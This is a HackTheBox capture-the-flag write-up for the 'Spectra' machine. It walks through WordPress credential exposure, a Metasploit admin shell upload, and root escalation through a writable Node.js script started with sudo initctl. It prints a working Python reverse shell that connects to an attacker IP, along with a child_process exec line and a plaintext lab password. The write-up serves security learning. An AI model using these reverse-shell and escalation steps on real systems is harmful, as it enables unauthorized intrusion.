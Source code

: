 ```yaml
---
title: "HackTheBox - Spectra"
author: Nasrallah
description: ""
date: 2023-05-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, chromeos, easy, sudo, wordpress, commandinjection, metasploit]
img_path: /assets/img/hackthebox/machines/spectra
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Spectra](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.229
Host is up (0.29s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 5247de5c374f290e8e1d886ef9234d5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.17.4
3306/tcp open  mysql   MySQL (unauthorized)
```

We found 3 open ports, 22 is SSH as usual, port 80 running nginx web server and 3306 is mysql but we can't authenticate.

## Web

Let's navigate to the web page.

![](1.png)

We found two links that both goes to the domain `spectra.htb`, let's add it to `/etc/hosts` and got to the first link

![](2.png)

This one is a wordpress website, let's check the other link.

![](3.png)

We got an error and it also looks like wordpress.

After trying to run a directory scan for `/testing` it showed me that it has directory listing.

![](4.png)

Here we can see different wordpress default files.

One file that looks interesting is `wp-config.php.save`, and the `wp-config.php` file in wordpress always hold credentials of the database.

Since the file has `.save` extension at end means that we can read it.

![](5.png)

After checking the source code of the file we find the database credentials.

# **Foothold**

We can't login to the `mysql` server we found earlier so let's try logging in as Administrator with the DB password at `http://spectra.htb/main/wp-login.php`

![](6.png)

We've logged in successfully but the page looks weird.

I used the module `exploit/unix/webapp/wp_admin_shell_upload` from `metasploit` to get a shell.

![](7.png)

# **Privilege Escalation**

## katie

Checking different directories in the system we came across a config file in `/opt`

![](8.png)

The file description is "Automatic login at boot" and it's checking two directories`/mnt/stateful_partition/etc/autologin` and 1/etc/autologin` for the file `passwd` which contains a password, the passwords then is injected into the login prompt.

Let's check the passwd file

```terminal
cat /etc/autologin/passwd
SummerHereWeCome!!
```

We got the password, let's see what users are on this machine

```terminal
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

Let's see if we can ssh to any of those users.

![](9.png)

We logged as `katie`.

## root

Let's check `katie`'s permission.

![](10.png)

We can run `initctl` as root and katie is part of the `developers` group.

According to linux man page, `initctl` allows a system administrator to communicate and interact with the Upstart init daemon and use it to monitor and call jobs that are located in `/etc/init`.

Now let's search for files that belongs to `developers` group.

```terminal
katie@spectra ~ $ find / -group developers 2>/dev/null -ls                                                                                                   
    32121      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test6.conf
    32123      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test7.conf
    32109      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test3.conf
    32112      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test4.conf
    32103      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test.conf
    32126      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test8.conf
    32128      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test9.conf
    32106      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test10.conf
    32108      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test2.conf
    32120      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test5.conf
    32105      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test1.conf
    23762      4 drwxr-xr-x   2 root     developers     4096 Jun 29  2020 /srv
    23763      4 -rwxrwxr-x   1 root     developers      251 Jun 29  2020 /srv/nodetest.js
```

We have have read/write rights over test files in `/etc/init` directory and `/srv`. Let's see what'on the test files.

```shell
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

They all contains the same script blocks which have what looks like shell commands.

The first blocks executes a node.js script located at `/srv/nodetest.log`

```js
var http = require("http");

http.createServer(function (request, response) {
   response.writeHead(200, {'Content-Type': 'text/plain'});
   
   response.end('Hello World\n');
}).listen(8081);
```

The script starts a simple webserver.

We have write permission over the config files and over the node.js script, so we can edit either of them to get a shell. I choose to edit the node.js script by adding the following line to it.

```js
require('child_process').exec('/home/katie/shell.sh')
```

The code above simply executes a shell script that contains the following python reverse shell.

```bash
export RHOST="10.10.17.90";export RPORT=9002;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After that we can start any of the `test` jobs with the following command:

```bash
sudo /sbin/initctl start test
```

![](11.png)

We got a root shell.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).